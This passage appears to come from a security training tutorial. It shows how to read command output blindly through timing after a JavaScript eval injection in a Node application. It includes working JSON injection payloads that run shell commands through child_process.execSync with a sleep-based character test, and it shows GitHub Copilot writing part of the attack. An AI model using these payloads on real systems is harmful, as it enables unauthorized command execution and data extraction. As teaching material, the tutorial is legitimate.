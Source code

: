 ## Reading Output through Sleep

We need to read the first character in the command output and compare it against each ASCII charset. Then, we must repeat this for all other characters in the command output until no match is found, indicating the output's end.

If we were relying on JavaScript code, we could do so with the following code:

```js
require("child_process").execSync("ls").toString()[0] == "a"
  ? new Promise((resolve) => setTimeout(resolve, 2000))
  : null;

```

This may work and need some tinkering to avoid breaking the `eval` function and any other code. Luckily, we already have command execution, so we can rely on the `bash` command for `sleep` as we did before and do not need to write a lot of JavaScript code to get it working. If we did not have command execution and were trying to read the content of a local file, we would need to rely on JavaScript, as shown above.

So, we need a one-line bash command that executes our specified command, reads the first character, compares it to `a`. If it matches, then sleep for 2 seconds, if not, do nothing. Let's copy this entire sentence and ask AI to write this bash code for us:
![](4c7XZb9wOK1o.png)

As we can see, GitHub Copilot gave us this command:

```bash
command | head -c 1 | { read c; if [ "$c" = "a" ]; then sleep 2; fi; }

```

Excellent! This saves us a lot of online searching. Let's test this in our payload while ensuring that we escape any characters that may break the JSON body or the JavaScript code. We will replace `command` with `ls`:

```json
{
  "text": "'}) + require('child_process').execSync('ls | head -c 1 | { read c; if [ \"$c\" = \"a\" ]; then sleep 2; fi; }')//"
}

```

If we send the above payload, we get an immediate response. However, if we replace `a` with the actual first character in the command output, which is `n` from `node_modules` as we saw in the previous section, we do indeed get a delay of 2 seconds.

Then, we can move to the next character and try to find its value. But, if we change `head -c 1` to `head -c 2`, then it would return the first 2 characters. So, we would either need to append the first identified character, or use `tail` to only capture the last character, so we would always be reading 1 character, as follows:

```json
{
  "text": "'}) + require('child_process').execSync('ls | head -c 2 | tail -c 1 |  { read c; if [ \"$c\" = \"a\" ]; then sleep 2; fi; }')//"
}

```
